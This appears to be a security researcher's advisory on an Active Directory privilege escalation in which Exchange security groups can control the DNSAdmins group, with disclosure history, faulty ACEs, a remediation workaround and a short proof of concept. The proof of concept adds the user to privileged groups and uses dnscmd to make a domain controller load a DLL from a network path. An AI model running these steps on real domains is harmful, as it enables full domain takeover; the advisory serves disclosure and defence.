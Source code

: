## DNSAdmins group DACL privilege escalation

A privilege escalation is possible from the **Exchange Windows permissions** (EWP) 
and from the **Exchange Trusted Subsystem** security groups to control the DNSAdmins group and then compromise the entire prepared Active Directory domain.
This second part was described in [this work from Shay Ber](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83) in 2017


DISCLAIMER: This issue has been responsibly disclosed to MSRC in November 2018 and after a few back and forth emails, they closed the case.
Basically, they could not reproduce the issue in their testing environments. 
However, the DACL of the incriminated object on their side appears to be quite different from the DACL that I observed in several live production AD domains: MSRC side DACL has a few *Deny* ACEs explicitely positioned for the incriminated Exchange security groups, where production side has only *Allow* ACEs.


From there, I can only speculate that either they have an unreleased fix on their testing environments, or their path of Exchange deployment on AD is different
from what is commonly observed on live domains, which are upgraded and not redeployed on CU releases. If the aformentionned *Deny* ACEs are positioned on your environment, it is probably *NOT* vulnerable.


* Description of the issue

In up-to-date deployments of Exchange 2016 in Shared permissions (default) or RBAC split permissions, three controlling ACEs are positioned on the "CN=DNSAdmins,CN=Users" group for the **Exchange Windows Permissions** 
and for the **Exchange Trusted Subsystem** security groups.

These ACE are probably positioned during an update or a particular CU install. I have been confirmed they exist on other organizations production environments. This is their SDDL representation:

```
(OA;CIID;WP;bf9679c0-0de6-11d0-a285-00aa003049e2;;<SID of EWP>)
(OA;CIID;WP;0296c120-40da-11d1-a9c0-0000f80367c1;;<SID of EWP>)
(OA;CIID;WD;;bf967a9c-0de6-11d0-a285-00aa003049e2;<SID of ETS>)
```
Which translates into:

| Account | ACE type | Inheritance | Permissions | On property/ Applies to | Comments |
| ------- | -------- | ----------- | ----------- | ----------------------- | -------- |
| Exchange Windows Permissions | Allow ACE | All | WriteProp | ManagedBy / | |
| Exchange Windows Permissions | Allow ACE | All | WriteProp | Member / | |
| Exchange Trusted Subsystem | Allow ACE | All | WriteDACL | / Group | |


* Technical consequence

Any member of Exchange Windows Permissions can add members to DNSAdmins. 

![EWP effective access](DNSAdmins_EWP.png "EWP effective access")


Any member of Exchange Trusted Subsystem can modify DNSAdmins DACL to grant himself permission to add members to it.

![ETS effective access](DNSAdmins_ETS.png "ETS effective access")

The DNSAdmins group has a particular privilege to remotely load DLLs on domain controllers in the SYSTEM context (by design, as MSRC case 38121 reported by Shay Ber). 

* Security Consequence

Any member of the Organization Management group can execute code remotely on the domain controllers in the SYSTEM context, taking complete control of the Active Directory domain.

* Proof of concept

1) From an Organization Management member account, add yourself to Exchange Windows Permissions
This is possible by default and normal

```
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members $user
```

2) LOG OUT AND RELOG THE USERS SESSION to update groups in token

3) Add yourself to DNSAdmins
This is the problem, it should not be possible

```
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
Add-ADGroupMember -Identity "DNSAdmins" -Members $user
```

4) LOG OUT AND RELOG THE USERS SESSION to update groups in token

5) Choose a domain controller and remotely change a registry key to load a dll (needs specific exports) on next DNS service restart:

```
dnscmd test_domain_controller /config /serverlevelplugindll \\NetworkPath\to\dll
```

* Workaround fix

Manually with LDP: bind as a Domain Admin account with the usual precautions, as you will change the DNSadmins group DACL.

Backup the DACL: 

```
(Get-Acl "AD:\CN=DNSAdmins,CN=Users,DC=...").Sddl | Out-File "dnsadmins_dacl.txt"
```

Locate the "CN=DNSAdmins,CN=Users,DC=..." security group. Disable ACE inheritance and choose to copy existing ACEs. Locate and delete the 3 faulty ACE in the DACL: you can sort by Trustee to see Exchange Windows Permissions and Exchange Trusted Subsystem.

TODO: powershell fix script.

